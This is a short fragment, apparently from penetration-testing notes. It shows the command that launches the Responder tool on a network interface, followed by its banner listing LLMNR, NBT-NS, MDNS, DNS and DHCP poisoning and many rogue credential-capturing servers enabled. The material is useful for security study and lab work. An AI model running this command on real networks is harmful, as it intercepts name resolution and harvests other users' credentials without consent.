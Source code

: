 ```shell
sudo responder -I eth0 -wd
```

Info:

```
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
```